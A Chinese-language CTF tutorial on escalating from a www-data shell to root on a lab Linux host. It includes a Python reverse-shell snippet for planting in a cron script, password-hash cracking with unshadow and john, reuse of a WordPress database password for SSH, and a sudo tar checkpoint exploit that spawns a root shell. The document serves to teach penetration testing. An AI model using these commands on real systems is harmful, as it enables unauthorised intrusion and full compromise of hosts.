# 网络安全入门到精通：P39：14.15. 路径遍历与提权（获取root权限）🚀

在本节课中，我们将学习在CTF（Capture The Flag）比赛和Web安全渗透测试中一个至关重要的环节——**提权**。具体来说，我们将探讨如何在已经获得一个低权限用户（如`www-data`）的Shell后，通过各种技术手段提升到系统的最高权限（`root`），从而完全控制目标主机并获取最终的Flag值。

## 概述：什么是提权？🎯

在渗透测试中，我们常常首先攻破服务器的Web服务，但此时获得的往往是像`www-data`这样的低权限用户。为了进行更深层次的内网渗透或完全控制系统，我们需要将权限提升至`root`。Linux系统的提权不仅涉及系统漏洞的利用，还与系统配置、文件权限等密切相关。进行提权的前提是：我们已经获得了一个低权限Shell，并且目标机器上通常存在`nc`、`python`、`perl`等常见工具，同时我们拥有上传和下载文件的能力。

**实验环境**：
*   **攻击机**：Kali Linux， IP: `192.168.253.12`
*   **靶机**：Linux系统， IP: `192.168.253.21`

我们的目标是：从已获得的`www-data`用户反弹Shell开始，执行一系列操作，最终获得`root`权限。

---







## 提权方法一：内核漏洞提权 🔍

内核漏洞提权是我们首先应该尝试的方法，它通过利用操作系统内核的漏洞直接获取最高权限。但需要注意的是，能够通杀所有系统的“万能”内核漏洞极为罕见。因此，我们需要先收集系统信息。



以下是收集系统信息的常用命令：



*   **查看发行版本**：
    *   `cat /etc/issue`
    *   `cat /etc/*-release`
*   **查看内核版本**：
    *   `uname -a`

获得系统版本信息后，我们可以使用`searchsploit`等工具搜索是否存在已知的、可利用的内核漏洞。





**操作流程**：
如果发现可利用的内核漏洞，通常需要将漏洞利用代码（C语言编写）上传到靶机，编译并执行。



```bash
# 上传 exploit.c 文件后
gcc exploit.c -o expoit  # 编译
chmod +x expoit          # 添加执行权限
./expoit                 # 执行漏洞利用程序
```

执行成功后，我们便获得了`root`权限的Shell。

> **注意**：在本实验的靶机中，通过`uname -a`和`cat /etc/*-release`发现系统为`Ubuntu 12.04.5`。使用`searchsploit ubuntu 12.04.5`搜索未发现直接可用的漏洞，因此内核漏洞提权在此场景下不可行。

---

## 提权方法二：明文/弱密码提权 🔑

Linux系统的用户密码信息存储在`/etc/passwd`和`/etc/shadow`两个文件中。`passwd`文件所有用户可读，其密码字段是哈希值；`shadow`文件仅`root`可读写，存储着实际的密码哈希。

**提权思路**：
如果我们能读取这两个文件，就可以使用`unshadow`命令将它们合并，然后用`john`等密码破解工具尝试破解`root`用户的密码。

```bash
unshadow passwd shadow > passwords.txt
john passwords.txt
```

**实验验证**：
在靶机上，我们可以读取`/etc/passwd`，但尝试读取`/etc/shadow`时被拒绝，权限不足。因此，此方法在当前场景下也不可行。

---

## 提权方法三：计划任务（Cron Job）提权 ⏰

Linux系统中，计划任务（Cron Job）用于定时执行脚本或命令。系统级的计划任务通常以`root`权限运行，其配置文件位于`/etc/crontab`或`/etc/cron.*/`目录下。

**提权思路**：
如果某个以`root`权限定时运行的脚本，其文件权限配置不当（例如，任何用户都可写），我们就可以修改这个脚本，插入反弹Shell的代码。当计划任务执行时，就会向我们指定的监听端口返回一个`root`权限的Shell。



例如，如果目标脚本是Python脚本，我们可以将其替换为如下内容：
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

**实验验证**：
检查靶机的`/etc/crontab`文件，未发现配置不当的可写计划任务脚本。因此，此方法同样不可行。

---

## 突破：密码复用与终端模拟 🚪

经过以上三种常见方法的尝试，我们均未成功。此时需要拓宽思路，例如寻找**密码复用**。管理员可能在不同服务（如数据库、Web后台、SSH）中使用相同的密码。

**操作与发现**：
1.  在靶机的`/home`目录下发现用户`zico`。
2.  进入`zico`目录，发现`wordpress`应用。
3.  查看WordPress配置文件`wp-config.php`，找到了数据库连接信息：
    ```php
    define(‘DB_USER’, ‘zico’);
    define(‘DB_PASSWORD’, ‘S.WF.CSFGSP.V9H.3AMQZW8’);
    ```
4.  推测用户`zico`的SSH密码可能与此数据库密码相同。
5.  使用`nmap`扫描确认靶机开放了SSH服务（端口22）。

**登录尝试与问题**：
当我们尝试用`ssh zico@192.168.253.21`和找到的密码进行连接时，成功登录！这说明密码复用的推测是正确的。

然而，登录后我们获得的仍然是一个受限的Shell。当我们尝试使用`su`或`sudo`切换用户时，系统可能会要求从**终端设备（TTY）**输入密码，而我们通过SSH或Netcat获得的Shell是标准输入（stdin），不满足条件。

**解决方案：模拟TTY**：
我们可以使用Python来生成一个全功能的伪终端（PTY）。
```bash
python -c “import pty; pty.spawn(‘/bin/bash’)”
```
执行此命令后，我们就获得了一个功能完整的Bash Shell，可以正常接受密码输入。



---

## 提权方法四：SUDO权限滥用提权 ⚡

获得一个功能完整的Shell后，下一步是检查当前用户（`zico`）被允许以`root`身份执行哪些命令。
```bash
sudo -l
```
执行该命令后，系统显示`zico`用户可以在**不需要输入`root`密码**的情况下，以`root`身份运行`vi`、`tar`等命令。这为我们提供了绝佳的提权机会。

这里我们以`tar`命令为例进行提权演示：

**利用`tar`命令提权**：
`tar`命令有一个特性，可以通过`--checkpoint-action`参数在执行过程中运行任意命令。
```bash
# 1. 创建一个任意文件
touch exploit




# 2. 使用sudo以root权限运行tar，并利用参数执行/bin/bash
sudo tar -cf exploit.tar exploit --checkpoint=1 --checkpoint-action=exec=”/bin/bash”
```
执行上述命令后，`tar`会以`root`权限启动，并在创建检查点时执行`/bin/bash`，从而直接给我们一个`root`权限的Shell。



> **提示**：`vi`、`nmap`（旧版本）、`find`等许多命令都存在类似的特性，可以用于提权，具体方法可查阅GTFOBins项目。

**实验成功**：
在靶机上执行上述`tar`提权命令后，我们成功获得了`root`权限的提示符（`#`）。





---

## 获取Flag与总结 🏁



获得`root`权限后，最后一步就是寻找Flag。Flag通常存放在`/root`或`/home`目录下。
```bash
cd /root
ls
cat flag.txt
```
执行这些命令，我们便成功读取到了最终的Flag值。



**本节课总结**：
在本节课中，我们一起学习了Linux系统提权的核心思路和多种实践方法：
1.  **信息收集**是提权的第一步，包括系统版本、内核版本、用户权限(`sudo -l`)、可写文件等。
2.  我们系统性地尝试了**内核漏洞提权**、**密码破解提权**和**计划任务提权**，虽然在本例中未直接成功，但这些都是必须掌握的常规方法。
3.  在常规方法失效时，我们通过**挖掘配置文件**发现了密码复用线索，并利用**SSH登录**和**模拟TTY**突破了交互限制。
4.  最终，通过分析`sudo -l`的结果，我们发现了**SUDO权限滥用**这一高效的提权路径，并利用`tar`命令的特性成功获取了`root`权限。



CTF中的提权环节考验的是综合能力和“脑洞”，需要灵活结合各种信息，不断尝试。希望本教程能为你打下坚实的基础。